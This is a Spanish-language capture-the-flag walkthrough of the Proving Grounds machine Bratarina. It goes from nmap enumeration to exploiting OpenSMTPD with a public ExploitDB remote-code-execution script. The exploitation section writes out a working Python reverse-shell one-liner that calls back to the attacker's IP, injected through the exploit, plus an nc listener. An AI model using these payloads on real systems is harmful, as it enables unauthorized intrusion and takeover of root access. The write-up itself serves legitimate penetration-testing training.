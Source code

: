 ```yaml
---
layout: post
title: Bratarina (Linux - Intermediate) - Proving Grounds Practice
date: 10.06.2025
categories: [Linux, Proving Grounds, Proving Grounds Practice, Walkthrough, OSCP, Tutorial]
tag: [Proving Grounds Practice, Proving Grounds, Linux, Privilege Escalation, OpenSMTPD 2.0.0, OpenSMTPD 6.6.1, SMTP, TCPDump, ExploitDB, RCE, Intermediate]
---
```


# Resolución paso a paso de la máquina Bratarina:

## ENUMERACIÓN

### NMAP

- Realizamos el primer escaneo para ver que puertos están abiertos:

```bash
nmap -p- --open -v -n 192.168.169.71 -oG allPorts
```

![image.png](assets/img/post-img/Bratarina/image.png)

- Enumeramos los **SERVICIOS ACTIVOS** en los **PUERTOS** que hemos descubierto:

```bash
nmap -sCV -p22,25,80,445 --min-rate 5000 192.168.169.71 -oN targeted
```

 

![image.png](assets/img/post-img/Bratarina/image%201.png)

## EXPLOTACIÓN

- Analizamos varias opciones para encontrar un punto de entrada pero en la **WEB** no encontramos nada, por **SMB** tampoco parece haber nada interesante, intentamos interactuar por **SMTP** a través de **NC** pero tampoco logramos nada importante. Buscamos **EXPLOITS** en base a los **SERVICIOS** y **VERSIONES** y encontramos varias opciones para “**OpenSMTPD**” que, aunque en la máquina víctima se usa la **versión 2.0.0**, todos son de versiones más recientes. Entre los **EXPLOITS** hay una opción escrita en **PYTHON 3** que parece interesante:

### EXPLOITDB

![image.png](assets/img/post-img/Bratarina/image%202.png)

[OpenSMTPD 6.6.1 - Remote Code Execution](https://www.exploit-db.com/exploits/47984)

- Descargamos el **EXPLOIT** y vemos que tenemos que pasarle **3 argumentos**, la **IP** de la máquina víctima, el **PUERTO** de **SMTP (25)** y el comando que queramos ejecutar. Para comprobar si funciona y si podemos recibir conexiones nos ponemos en escucha con **TCPDUMP** y nos enviamos un **PING** hacia nuestra máquina atacante:

```bash
python3 smtpd-script.py 192.168.169.71 25 'ping -c 1 192.168.45.223'
```

![image.png](assets/img/post-img/Bratarina/image%203.png)

```bash
sudo tcpdump -i tun0 icmp
```

![image.png](assets/img/post-img/Bratarina/image%204.png)

- Ahora vamos a intentar lanzarnos la **REVERSE SHELL** para ganar acceso al sistema. Después de muchísimos intentos y de probar con muchas opciones descubrí que con un **NC** básico me llegaba la conexión pero no me permitía interactuar con la **SHELL**, así que seguí buscando hasta que di con una **SHELL** en **PYTHON** que me funcionó (Hay que escapar todas las comillas que se encuentran dentro del **PAYLOAD** con una barra invertida “**\**” para que no entren en conflicto):

[Online - Reverse Shell Generator](https://www.revshells.com/)

![image.png](assets/img/post-img/Bratarina/image%205.png)

```bash
python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.223\",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"
```

- Nos ponemos en escucha, preparamos el **EXPLOIT** y lo lanzamos:

```bash
python3 smtpd-script.py 192.168.169.71 25 'python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.45.223\",22));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")"'
```

![image.png](assets/img/post-img/Bratarina/image%206.png)

- Igual que pasa en otras máquinas como por ejemplo **SNOOKUMS**, debemos ponernos en escucha con **NC** por alguno de los **PUERTOS** que la propia máquina víctima tiene abiertos. Si no es así no funcionará y no podremos recibir la conexión.

```bash
nc -lvnp 22
```

![image.png](assets/img/post-img/Bratarina/image%207.png)

- Hemos ganado acceso como **ROOT** directamente, ahora ya podemos leer la **FLAG**:

![image.png](assets/img/post-img/Bratarina/image%208.png)